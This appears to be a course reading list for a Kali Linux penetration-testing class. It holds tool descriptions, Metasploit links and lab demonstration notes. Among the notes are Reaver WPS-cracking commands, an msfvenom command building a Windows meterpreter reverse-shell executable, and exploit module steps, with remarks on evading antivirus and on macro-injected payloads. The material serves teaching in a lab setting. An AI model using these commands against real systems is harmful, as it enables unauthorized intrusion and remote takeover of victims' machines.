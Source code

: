 # Readings and Videos<p>
 
## Kali introductory readings

<details> 
  <summary>Some of the most useful tools in Kali Linux and what they do</summary>
from: https://stackoverflow.com/questions/32814161/how-to-make-spoiler-text-in-github-wiki-pages
 
1. Metasploit - Main part of Kali Linux, This tool is used to enumerate a network, attacking on the servers using appropriate exploits and Payloads. Along with this you can use it for post exploitation purposes

2. THC Hydra - A online Password Cracker tool, which is used to Crack the password of a remote host / server

3. Armitage - Graphical display of metasploit for attacking on a server

4. WafW00f - The Firewall Detection tool

5. Fierce - The Domain Information Digging tools used to enumerate the server users

6. Hping3 - A tool used for Launching DoS (Denial of Service) or DDoS (Distributed Denial of Service) attacks

7. Airmon - ng, Airbase - ng, Aircrack - ng - Used to monitor, Collect information about Wi - Fi SSID (Service Set Identifier) IP and MAC Addresses and Cracking Password of Wi - Fi

8. OWASP ZAP - used as a web Crawler (Spidering)

9. Burpsuite - Used as a penetration testing tool to introduce Local file or Remote File Inclusion

10. Maltego - Used to collect information of remote hosts

11. W3AF - Arconym for Web Application Attack and Audit Framework, used to find flaws in a website

12. NMap and Netcat - Used to find open network ports

13. Nikto Scanner - Used to find critical vulnerabilities in a website

14. Wpscan - used to find flaws in a wordpress website

15. Recon - ng - Used to reconnaissance of a profile through any sort of social media

16. Magictree - Used to collect information by collecting inputs from a Penetration Tester

17. Whois - Gives the entire information about website

18. Nslookup & Dig - A part of reconnaissance tools gives the exact information of a web server

19. Wireshark - A packet analyzer used to find the activity in a Transmission control protocol / Internet Protocol / IGRP / ICMP etc.

20. Kismet - Wireless Intrusion detection System
</details>
<p>

[Kali Linux Official Documentation](https://docs.kali.org/)<br />

[Kali Linux Custom Images](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-hyperv-image-download/)<br />

[Kali Blog: Linux in the Windows App Store](https://www.kali.org/news/kali-linux-in-the-windows-app-store/)<br />

[Kali Blog: Kali Drones, Portable CTF Builds, Raspberry Pi Craziness and More!](https://www.kali.org/news/kali-drones-portable-ctf-builds-raspberry-pi-craziness-and-more/)<br />


[Configuring and Tuning OpenVAS in Kali Linux](https://www.kali.org/tutorials/configuring-and-tuning-openvas-in-kali-linux/)<br />

[Nmap scanner gets new scripts](https://www.infoworld.com/article/3152617/security/nmap-security-scanner-gets-new-scripts-performance-boosts.html)<br />

[Mastering the Nmap Scripting Engine (video from DefCon 18, 38mins, non-obligatory)](https://www.infoworld.com/article/3152617/security/nmap-security-scanner-gets-new-scripts-performance-boosts.html)<br />

**Highly Suggested brief reading:** [Offline Bruteforce Attack on Wifi Protected Setup](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)<br />



  
## Metasploit<p>

##### n.b. any ebooks are cuny-wide resources but if you have issues with the proxy please search in the JJay OneSearch [here](https://onesearch.cuny.edu/primo-explore/search?vid=jj&mode=advanced&sortby=rank&lang=en_US).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
**Suggested brief reading:** [Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
[A Tour of the Metasploit Framework](http://www.ethicalhackx.com/metasploit-framework/).<br />
[Hands on with Metasploit Express (ScienceDirect)](https://doi.org/10.1016/S1353-4858(10)70092-1).<br />
[Instant Metasploit Starter (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781299802681&context=PC&vid=jj&search_scope=cunywide&tab=cuny_tab&lang=en_US).<br />
[Mastering Metasploit (ProQuest ebook)](https://onesearch.cuny.edu/primo-explore/fulldisplay?docid=TN_ingram_myilibrary9781306823425&context=PC&vid=jj&search_scope=everything&tab=default_tab&lang=en_US).<br />
[SANS Metasploit Cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf).<br />
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>


<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  

Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](https://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
 
## Reaver<p>

 
 ##### Pixie Dust attack
 
 ![Options](https://comfy.moe/xeuglf.png)
  <p>

  
![The old way](https://www.hackingtutorials.org/wp-content/uploads/2015/06/Wordpress-screen-21-e1433583260536.jpg)
  <p>

`reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K`    
![With the pixie dust option](https://comfy.moe/hhojvn.jpg)
  <p>
 
 `reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p 39627124`
 ![With the pixie dust option - result](https://comfy.moe/tyhfos.jpg)
  
<p>
 
  ### Demonstration of using Metasploit<br />
  <br />
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  #### Creating Payloads
  
  
  * msfvenom -h
  * msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 lport=8080 lhost=LOCALHOST -f exe > /root/Desktop/payload.exe (not encoded)
  * Veil framework (veil-evasion) (payload with .bat extension, use Macroshop, inject in docx for Office macros)
  
  start postgresql before msfconsole<br />
  db_status<br />
  show -h<br />
  show exploits <br />
  searching by type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:

  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'check' and 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
  
  Armitage - GUI for MSF
  
  ezsploit automation
  
### Reconnaisance:<br />
[CTFR](https://github.com/UnaPibaGeek/ctfr)<p>
![CTFR](https://a.pomf.cat/qqtejp.png)
 <p>
 
### Shodan: FREE full membership with a .edu address: 
 ![Shodan](https://a.pomf.cat/tbucxr.png)
 
 Register here: https://account.shodan.io/register and email support@shodan.io from the .edu email.
  
